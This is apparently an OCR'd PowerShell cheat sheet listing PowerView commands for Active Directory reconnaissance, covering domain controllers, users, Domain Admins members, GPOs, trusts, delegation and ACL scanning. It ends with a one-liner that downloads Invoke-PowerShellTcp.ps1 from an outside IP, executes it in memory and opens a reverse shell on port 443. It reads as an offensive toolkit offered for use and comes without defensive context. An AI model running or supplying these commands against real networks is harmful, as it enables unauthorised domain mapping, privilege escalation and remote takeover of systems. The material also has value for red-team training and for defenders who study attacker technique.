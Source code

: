 ```powershell
Arguments -Domain “domain name”

# Get DC
Get-NetDomainController
Arguments -Domain “domain name”

# Get users in current domain
Get-NetUser
Arguments -UserName “username”

# Get user properties
Get-UserProperty
Arguments -Properties pwdlastset

# Search for a particular string in a user's attributes
Find-UserField -SearchField Description -SearchTerm ”built”

# Get all computers
Get-NetComputer -FullData
Many arguments -OperatingSystem -Ping -FullData

# Get groups
Get-NetGroup
Arguments -FullData -Domain

# Get members of a particular group
Get-NetGroupMember -GroupName "Domain Admins"

# Group Policies
Get-NetGPO Get-NetGPO -ComputerName Get-NetGPOGroup

# Get users that are part of a Machine's local Admin group
Find-GPOComputerAdmin -ComputerName

# Get OUs
Get-NetOU -FullData Get-NetGPO -GPOname

# Mapping forest
Get-NetForest -Verbose
Get-NetForestDomain -Verbose

# Mapping trust
Get-NetDomainTrust
Arguments -Domain
Get-NetForestDomain -Verbose | Get-NetDomainTrust

# Finding Constrained Delegation
Get-DomainUser -TrustedToAuth (Poweview Dev.)

# Finding UnConstrained Delegation
Get-NetComputer -UnConstrained

# Get ACLs
Get-ObjectAcl -SamAccountName -ResolveGUIDs Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

# Search for interesting ACEs
Invoke-ACLScanner -ResolveGUIDs

# Reverse Shell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```